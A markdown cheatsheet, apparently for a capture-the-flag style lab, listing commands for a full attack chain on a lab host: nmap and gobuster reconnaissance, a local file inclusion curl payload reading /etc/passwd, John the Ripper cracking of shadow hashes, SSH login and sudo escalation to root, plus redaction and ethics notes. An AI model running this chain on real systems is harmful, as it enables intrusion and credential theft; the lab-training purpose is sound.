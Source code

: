 # Commands & Notes — Quick Cheatsheet

> Quick, copy‑paste friendly commands and short explanations for reproducing the Alpha Attack lab steps. Use these only in an isolated lab environment. Every command below includes a short comment describing its purpose.

---

## Environment Setup

```bash
# create project directories for outputs and screenshots
mkdir -p AlphaAttack-Cuppa-LFI/{outputs,nmap,zap,john,screenshots,writeup}
# purpose: organize artifacts so outputs are collected and easy to redact later
```

---

## Network Reconnaissance (nmap / Zenmap)

```bash
# ping sweep to discover live hosts in the lab network
nmap -sn 192.168.56.0/24 -oA outputs/nmap/ping_sweep
# purpose: find live IPs quickly

# aggressive scan (service/version detection, default scripts, traceroute)
nmap -A -sV -p- 192.168.56.101 -oA outputs/nmap/initial_scan
# purpose: enumerate open ports and services for attack surface mapping
```

Notes:

* Use Zenmap GUI for visually examining scan results if preferred.
* Keep raw nmap outputs in `outputs/nmap/` for traceability and later redaction.

---

## Web Discovery (forced browse / gobuster)

```bash
# forced browse with common wordlist to find hidden directories
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt -t 50 -o outputs/gobuster/webenum.txt
# purpose: discover admin panels or hidden endpoints

# optional: a heavier wordlist for deeper discovery
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o outputs/gobuster/webenum-heavy.txt
# purpose: increase coverage at the cost of runtime
```

---

## Proxying & Interception (ZAP + FoxyProxy)

Instructions:

1. Install and run OWASP ZAP.
2. Configure FoxyProxy in your browser to point to ZAP's proxy (default `127.0.0.1:8080`).
3. Browse the target site to populate ZAP's history, then use ZAP's Forced Browse and Request Editor.

Notes:

* Export ZAP session: `File → Export Session` and save to `outputs/zap/session.session`.
* Purpose: capture requests/responses and edit payloads for LFI testing.

---

## LFI Testing (confirm file inclusion)

```bash
# test LFI with curl (adjust traversal depth as needed)
curl -s 'http://192.168.56.101/alertConfigField.php?urlConfig=../../../../../../etc/passwd' -o outputs/exfiltrated/etc_passwd.txt
# purpose: confirm ability to read /etc/passwd via LFI and save output

# alternative: request via browser ZAP and use the Request Editor to iterate safely
# purpose: use ZAP to keep history and modify requests interactively
```

Security note: Never run commands like these against systems you don't own or have explicit permission to test.

---

## Preparing for Password Cracking

```bash
# ensure you have a local copy of rockyou wordlist (Debian/Ubuntu path shown)
# purpose: provide a common wordlist for John
ls /usr/share/wordlists/rockyou.txt || echo "rockyou not found, install wordlists package"

# prepare the 'unshadow' file: combine passwd and shadow entries if needed
# (example shows the command if you have both files locally)
# purpose: John expects a combined format for cracking
unshadow outputs/exfiltrated/etc_passwd.txt outputs/exfiltrated/etc_shadow.txt > outputs/john/unshadow.txt
```

---

## Password Cracking (John the Ripper)

```bash
# run John with sha512crypt format using rockyou
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt outputs/john/unshadow.txt --pot=outputs/john/john.pot
# purpose: attempt to crack hashes and store results in a potfile

# show cracked passwords
john --show outputs/john/unshadow.txt --pot=outputs/john/john.pot > outputs/john/john-show.txt
# purpose: produce a readable output file with cracked credentials
```

Notes:

* If John fails, try `--rules` or other wordlists; consider `hashcat` for GPU acceleration in a lab.
* Never commit `john.pot` or `john-show.txt` to a public repo with real data.

---

## SSH Access & Privilege Enumeration

```bash
# SSH into target using recovered credentials
ssh w1r3s@192.168.56.101
# purpose: obtain an interactive shell for post-exploitation

# on target: check sudo privileges
sudo -l
# purpose: enumerate allowed sudo commands and possible NOPASSWD entries

# escalate if allowed
sudo -i
# purpose: spawn an interactive root shell if permitted
```

Post‑exploit note: document each command and capture terminal output (e.g., `script` command) and save to `outputs/`.

---

## Evidence Collection & Redaction

```bash
# collect outputs into a single archive for review (before redaction)
tar -czvf outputs/artifacts-raw.tar.gz outputs/
# purpose: snapshot raw artifacts for offline redaction

# redact sensitive strings (example: replace literal IPs)
# WARNING: this is a naive example; use careful regex and manual review before publishing
sed -i 's/192.168.56.101/REDACTED_IP/g' outputs/exfiltrated/* outputs/john/*
# purpose: basic automated masking — always manually verify removal of secrets
```

Redaction checklist (manual):

* Remove or mask real IPs, hostnames, usernames, and passwords.
* Remove SSH private keys, PEM files, or any credentials.
* Replace screenshots that expose identifiable info or redact them with an image editor.

---

## Helpful Utilities & Tips

* Use `script -q -f outputs/sessions/ssh-session-$(date +%s).log` to record interactive shells (keystroke-level logs).
* Use `jq` to pretty print JSON outputs from tools.
* Keep a log of timestamps for each major action (e.g., `echo "T+01:30 — LFI confirmed" >> outputs/notes/timeline.txt`).

---
## Final Reminder (Ethics & Publication)

* Only use these commands within the authorized lab environment.
* Sanitize all outputs before publishing.
* When in doubt about whether something is sensitive, remove it or consult the team lead.



